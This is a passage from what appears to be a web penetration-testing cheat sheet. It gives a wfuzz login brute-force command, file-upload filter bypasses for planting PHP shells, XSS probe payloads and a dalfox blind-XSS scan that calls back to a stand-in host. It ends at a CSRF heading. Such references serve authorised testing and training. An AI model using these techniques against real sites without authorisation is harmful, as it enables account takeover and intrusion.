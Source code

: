 ```bash
wfuzz -c -z file,users.txt -z file,pass.txt -u https://target/login -d "username=FUZZ&password=FUZ2Z"
```

***

### IV. ⚙️ File Upload Vulnerabilities

| Test                        | Example                         | Notes                              |
| --------------------------- | ------------------------------- | ---------------------------------- |
| **Basic Upload**            | Upload `.php` renamed as `.png` | Look for double extensions         |
| **Bypass filters**          | `shell.pHp`, `shell.php%00.jpg` | Null-byte or case bypass           |
| **Client-side only checks** | Modify via Burp Repeater        | JS validation bypass               |
| **Image Polyglot**          | JPEG + PHP payload              | Exploit misconfigured interpreters |

#### 🧠 Common Upload Paths

```
/uploads/
/images/
/files/
/user_content/
```

→ Try accessing uploaded files directly.

***

### V. 🌐 Client-Side Attacks

#### 🔹 Cross-Site Scripting (XSS)

| Type       | Payload Example                                    |
| ---------- | -------------------------------------------------- |
| Reflected  | `<script>alert(1)</script>`                        |
| Stored     | Comment fields, message boxes                      |
| DOM-based  | `#<img src=x onerror=alert(1)>`                    |
| CSP Bypass | `<svg onload=alert(1)>`, JSONP callback injections |

💡 Automate scanning:

```bash
dalfox file urls.txt -b your.xss.report
```

***

#### 🔹 CSRF (Cross-Site Request Forgery)
